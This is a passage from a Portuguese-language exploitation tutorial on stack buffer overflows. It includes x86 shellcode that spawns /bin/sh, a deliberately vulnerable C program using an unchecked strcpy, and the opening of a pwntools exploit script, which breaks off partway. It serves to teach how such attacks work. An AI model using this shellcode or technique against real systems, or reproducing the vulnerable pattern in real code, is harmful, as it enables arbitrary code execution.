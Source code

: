     Podemos ver que as instrucoes só representam alguns conjuntos de bytes escritos na memória que a CPU interpreta cada um como alguma operacao para realizar.

    Com isso, podemos utilizar o que sabemos sobre overflow e escrever o endereco de retorno para ser qualquer um desses enderecos que contem instrucao, por exemplo: `0x8049205` que é o inicio da funcao main. Indo para esse endereco, o programa implesmente vai comecar a executar os bytes da funcao main normalmente.

    Mas e se quisermos executar algum pedaco de código que não está ja escrito no programa, por exemplo:

    ```c
    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
    ```

    Essa sequencia de bytes simplesmente são as intrucoes para o computador abrir um prompt, como o do terminal, para podermos executar qualquer comandos de modo interativo.

    Com o seguinte exemplo adicionar o endereco dessas instrucoes que desejamos dentro do programa e apontar para ela, assim comecaremos a executar a instrucao:

    **shellcode_overflow4.c**

    ```c
    void foo(char *string) {
            char buffer[500];

            strcpy(buffer, string);

            getchar();
    }

    void access_granted() {
            printf("Access Granted");
            fflush(stdout);
    }

    int main(int argc, char **argv) {
            foo(argv[1]);

            return 0;
    }
    ```

    Montei o código no python, usando pwntools para criar a shell.

    **shell4_exploit.py**

    ```c
    # exploit for shellcode_overflow4.c

    from pwn import *

    n1nops = 377
    n2nops = 100
    shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
    address = b"\x74\xcd\xff\xff"
